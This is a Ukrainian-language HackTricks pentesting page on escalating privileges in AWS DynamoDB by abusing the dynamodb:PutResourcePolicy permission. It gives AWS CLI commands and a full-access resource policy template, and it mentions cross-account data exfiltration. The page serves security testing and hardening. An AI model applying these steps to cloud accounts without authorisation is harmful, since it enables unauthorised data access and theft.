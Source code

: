 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

Для отримання додаткової інформації про dynamodb перегляньте:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, і за бажанням `dynamodb:GetResourcePolicy`

З березня 2024 року AWS пропонує *політики на основі ресурсів* для DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Отже, якщо у вас є `dynamodb:PutResourcePolicy` для таблиці, ви можете просто надати собі або будь-якому іншому суб'єкту повний доступ до таблиці.

Надання `dynamodb:PutResourcePolicy` випадковому суб'єкту часто відбувається випадково, якщо адміністратори вважають, що надання `dynamodb:Put*` дозволить лише суб'єкту додавати елементи до бази даних - або якщо вони надали цей набір дозволів до березня 2024 року...

В ідеалі, у вас також є `dynamodb:GetResourcePolicy`, щоб ви не перезаписували інші потенційно важливі дозволи, а лише інжектували додаткові дозволи, які вам потрібні:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Якщо ви не можете отримати поточну політику, просто використайте цю, яка надає повний доступ до таблиці вашому принципалу:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Якщо вам потрібно налаштувати це, ось список усіх можливих дій DynamoDB: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). А ось список усіх дій, які можуть бути дозволені через політику на основі ресурсів *І які з них можуть використовуватися між обліковими записами (подумайте про ексфільтрацію даних!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Тепер, з документом політики `policy.json`, додайте політику ресурсу:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Тепер у вас повинні бути потрібні дозволи.

### Постексплуатація

Наскільки мені відомо, **немає іншого прямого способу підвищити привілеї в AWS, просто маючи деякі дозволи AWS `dynamodb`**. Ви можете **читати чутливу** інформацію з таблиць (яка може містити облікові дані AWS) і **записувати інформацію в таблиці** (що може спровокувати інші вразливості, такі як ін'єкції коду lambda...), але всі ці варіанти вже розглянуті на **сторінці постексплуатації DynamoDB**:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: Читати дані, зловживаючи потоками даних

{{#include ../../../banners/hacktricks-training.md}}
